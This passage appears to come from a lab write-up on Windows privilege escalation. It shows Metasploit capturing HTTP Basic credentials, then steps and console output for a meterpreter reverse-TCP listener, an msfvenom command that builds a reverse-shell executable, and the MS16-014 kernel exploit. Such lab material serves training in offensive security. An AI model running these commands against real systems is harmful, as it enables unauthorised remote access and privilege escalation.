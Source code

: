 But, on the other side, we can see the credentials in the Metasploit console:
```
msf6 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 2.

[*] Using URL: http://10.8.80.159:8000/x
[*] Server started.
[*] Sending 401 to client 10.10.202.219
[+] HTTP Basic Auth LOGIN 10.10.202.219 "test:test" / /x
```


### <span style="color: var(--link-color);">[Task 14] - Privilege Escalation - Kernel Exploits </span>

If the Operating Systems is not updated regularly, we can find some older version of the kernel that allows us to use public exploits.
In this case, the kernel exploit is the **MS16_014**.

> Establish a shell
> 
> Kali VM
> 
> 1. Open command prompt and type: msfconsole
> 2. In Metasploit (msf > prompt) type: use multi/handler
> 3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
> 4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
> 5. In Metasploit (msf > prompt) type: run
> 6. Open an additional command prompt and type: msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe
> 7. Copy the generated file, shell.exe, to the Windows VM.
> 
> Windows VM
> 
> 1. Execute shell.exe and obtain reverse shell
> 
> Detection & Exploitation
> 
> Kali VM
> 
> 1. In Metasploit (msf > prompt) type: run post/multi/recon/local_exploit_suggester
> 2. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
> 3. In Metasploit (msf > prompt) type: use exploit/windows/local/ms16_014_wmi_recv_notif
> 4. In Metasploit (msf > prompt) type: set SESSION [meterpreter SESSION number]
> 5. In Metasploit (msf > prompt) type: set LPORT 5555
> 6. In Metasploit (msf > prompt) type: run
> 
> NOTE: The shell might default to your eth0 during this attack.  If so, ensure you type set lhost [Kali VM IP Address] and run again.


##### Establish a shell

We use Metasploit to set a listener (we use the windows/meterpreter/reverse_tcp payload):
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.8.80.159
LHOST => 10.8.80.159
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
```